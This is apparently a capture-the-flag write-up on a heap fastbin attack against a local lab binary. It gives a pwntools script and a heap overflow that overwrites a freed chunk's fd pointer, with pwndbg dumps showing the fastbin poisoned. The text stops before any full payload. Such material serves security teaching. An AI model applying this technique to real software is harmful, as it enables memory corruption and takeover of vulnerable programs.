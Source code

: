 ## 4.1.3 heap fastbins attack

Write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 2 chunks, free chuck2, edit chunk1(heap overflow) to change the fd
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
pause()
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0xdeadbeef))
delete(2)
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
before edit, chunk2 is freed, to fastbin
```
pwndbg> heapbase
heapbase : 0x727000
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x0000303030303030	0x0000000000000000
0x727040:	0x0000000000000000	0x0000000000000000
0x727050:	0x0000000000000000	0x0000000000000000
0x727060:	0x0000000000000000	0x0000000000000000
0x727070:	0x0000000000000000	0x0000000000000000
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x0000000000000000	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000
0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
after edit, 0xdeadbeef is added to fastbin
```
pwndbg> ni
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x7878787878787878	0x7878787878787878
0x727040:	0x7878787878787878	0x7878787878787878
0x727050:	0x7878787878787878	0x7878787878787878
0x727060:	0x7878787878787878	0x7878787878787878
0x727070:	0x7878787878787878	0x7878787878787878
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x00000000deadbeef	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000
0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0xdeadbeef
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$2 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
then malloc twice, 0xdeadbeef is returned, need to set 0xdeadbeef to a useful address.
check the got table
